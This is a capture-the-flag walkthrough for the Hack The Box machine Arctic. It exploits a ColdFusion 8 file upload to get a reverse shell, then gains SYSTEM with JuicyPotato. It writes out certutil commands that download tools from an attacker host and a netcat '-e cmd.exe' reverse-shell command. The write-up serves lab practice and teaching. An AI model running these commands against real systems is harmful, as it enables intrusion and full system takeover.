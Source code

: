 # Arctic [HTB](https://app.hackthebox.com/machines/Arctic)
![arctic-01]()


## recon 

Lets add an entry to `/etc/hosts` for this box: 

![hosts-02]()


Now we can start enumerating with nmap:

`nmap -sC -sV -A -p- acrtic.htb -oN nmap.result`

![nmap-res-03]()

We have the following:

+ An RPC endpoint mapper on port 135, and another RPC related port on 49154.
+ A JRun HTTP server on port 8500.


Lets go check the site. 


### JRun on port 8500


If we open our browser and navigate towards `http://arctic.htb:8500`:

![site-04]()

We can see we have two folders. If go into the first folder, we can see an `adminstrator` folder:

![admin-folder-05]()

Which leads to an admin portal:

![admin-portal-06]()

We can see this tech is Adobe ColdFusion 8. 

ColdFusion Markup Language is an interpreted language utilizing a Java backend. It allows direct 
access to Java via its cfscript tags, while simultaneously offering a simple web wrapper. 
It is vulnerable to a variety of attacks, but mainly Local File Disclosure (LFD) and SQL injection. 

If we search ColdFUsion 8 on google, we can quickly find a [public exploit](https://www.exploit-db.com/exploits/50057): 

![exploit-db-07]()


Apperatnly there is an upload file feature on the application in:

`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`


The exploit generates a `java/jsp_shell_reverse_tcp` payload using `msfvenom`, and saves it to a file.
Then, it sends the file to the server in a specific form. Finally it navigates to the reverse shell's
location to execute it while setting up a listener. Lets try it out. 

After downloading it, make sure to update your lhost/rhost information in the exploit:

![edit-exploit-08]()

We should be good to go, lets execute with:

`python3 rce_exploit.py`

![execute-09]()


At the end you should get a shell:

![shell-10]()



## Privilege Escalation


Lets run `systeminfo` on our tagret:

![sysinfo-11]()


We can see the target is a:

+ Windows 2008 R2 server standard.  
+ 6.1.7600 N/A Build 7600
+ X64 arhc 

After Following [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html) checklist for a bit, i found nothing meaningful. 

I also tried running [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) but without success.

So i decided to look at our user's privileges with `whoami  /priv`:

![privs-12]()


Looks like we have `SeImpersonatePrivilege` enabled. We might be able to expoit this with a [potato attack](https://github.com/ohpe/juicy-potato). 

+ Download the exploit from [here](https://github.com/ohpe/juicy-potato/releases).

+ Host the exploit to the target by starting a python server with:

`python3 -m http.server 80`

+ Transfer the exploit to the target with:

`certutil -urlcache -f http://10.10.14.20/JuicyPotato.exe potato.exe`

+ Tranfer a copy of `/usr/share/windows-resources/binaries/nc.exe` to the target as well. 

`certutil -urlcache -f http://10.10.14.20/nc.exe nc.exe`

+ Set up the local listener: 

`nc -lnvp 9009`

+ Execute `potato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\tolis\nc.exe -e cmd.
exe 10.10.14.20 9009" -t *`

+ Get system: 

![root-13]()
